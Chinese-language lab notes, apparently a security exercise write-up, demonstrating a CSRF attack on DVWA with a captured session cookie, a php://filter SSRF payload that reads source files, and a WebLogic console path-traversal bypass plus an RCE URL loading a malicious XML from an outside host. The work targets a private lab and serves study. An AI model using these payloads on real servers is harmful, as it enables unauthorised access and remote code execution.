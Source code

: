 1. CSRF
* DVWA-High 等级
1. pablo cookie：PHPSESSID=pqv9m8n2adik6ag3mn301p3sb3; security=low  

2. 删掉admin burp抓包中的token，替换成pablo的cookie即可
* 使用 Burp 生成 CSRF 利用 POC
  ![dce95241-c74d-40e4-a2dd-b90f07d99da7](file:///C:/Users/m1521/Pictures/Typedown/dce95241-c74d-40e4-a2dd-b90f07d99da7.png)
2. SSRF（file_get_content），要求获取 ssrf.php 的源码；
   http://192.168.79.131/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php ![31e7201a-4f06-493b-afca-e74287d313b9](file:///C:/Users/m1521/Pictures/Typedown/31e7201a-4f06-493b-afca-e74287d313b9.png)
   解码后为
   ![e0d0e3df-c184-4f1e-851c-3273fb29d8f3](file:///C:/Users/m1521/Pictures/Typedown/e0d0e3df-c184-4f1e-851c-3273fb29d8f3.png)

3. 远程代码执行漏洞：Weblogic RCE。
   
   1. http://192.168.79.131:7001/console/css/%252e%252e%252fconsole.portal **未授权访问到管理后台页面**
   
   2. 构造一个恶意的XML文件，并保存到Weblogic可以访问到的服务器上（http://example.com/rce.xml），随后访问http://192.168.79.131:7001/console/images/%252e%252e%252fconsole.portal_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")，让其加载恶意文件并且执行命令。
